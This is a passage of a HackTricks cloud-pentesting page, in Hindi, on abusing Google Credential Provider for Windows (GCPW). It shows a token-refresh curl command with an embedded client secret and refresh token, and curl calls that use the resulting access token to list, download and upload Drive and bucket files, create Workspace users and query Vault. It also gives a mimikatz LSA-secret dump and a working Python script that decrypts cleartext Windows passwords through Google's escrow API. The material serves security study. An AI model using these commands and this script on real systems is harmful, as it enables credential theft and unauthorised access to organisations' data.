https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

कुछ उदाहरण जो उन स्कोप्स में से कुछ का उपयोग करते हैं:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>स्प्रेडशीट्स के लिए अनुमति
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** Google Workspace के लिए एक ऐड-ऑन है जो आपके संगठन के डेटा के लिए डेटा संरक्षण, खोज, और निर्यात के उपकरण प्रदान करता है जो Google Workspace सेवाओं जैसे Gmail, Drive, Chat, और अधिक में संग्रहीत है।

* Google Workspace Vault में एक **Matter** एक **container** है जो एक विशिष्ट मामले, जांच, या कानूनी मामले से संबंधित सभी जानकारी को व्यवस्थित और समूहित करता है। यह उस विशेष मुद्दे से संबंधित **Holds**, **Searches**, और **Exports** प्रबंधित करने के लिए केंद्रीय हब के रूप में कार्य करता है।
* Google Workspace Vault में एक **Hold** एक **preservation action** है जो विशिष्ट उपयोगकर्ताओं या समूहों पर लागू होता है ताकि उनके डेटा को Google Workspace सेवाओं के भीतर **हटाने या संशोधित करने** से **रोकने** के लिए। Holds यह सुनिश्चित करते हैं कि प्रासंगिक जानकारी कानूनी मामले या जांच की अवधि के लिए सुरक्षित और अपरिवर्तित बनी रहे।
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## GCPW - स्पष्ट पाठ पासवर्ड पुनर्प्राप्त करना

GCPW का दुरुपयोग करके पासवर्ड के स्पष्ट पाठ को पुनर्प्राप्त करने के लिए, **mimikatz** का उपयोग करके **LSASS** से एन्क्रिप्टेड पासवर्ड को डंप करना संभव है:
```bash
mimikatz_trunk\x64\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```
फिर छवि में की तरह `Chrome-GCPW-<sid>` के लिए गुप्त खोजें:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

फिर, एक **एक्सेस टोकन** के साथ जो स्कोप `https://www.google.com/accounts/OAuthLogin` है, पासवर्ड को डिक्रिप्ट करने के लिए निजी कुंजी का अनुरोध करना संभव है:

<details>

<summary>एक्सेस टोकन, एन्क्रिप्टेड पासवर्ड और संसाधन आईडी दिए जाने पर स्पष्ट पाठ में पासवर्ड प्राप्त करने के लिए स्क्रिप्ट</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

यह Chromium स्रोत कोड में इसके प्रमुख घटकों को खोजने के लिए संभव है:

* API डोमेन: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API एंडपॉइंट: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

## संदर्भ

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
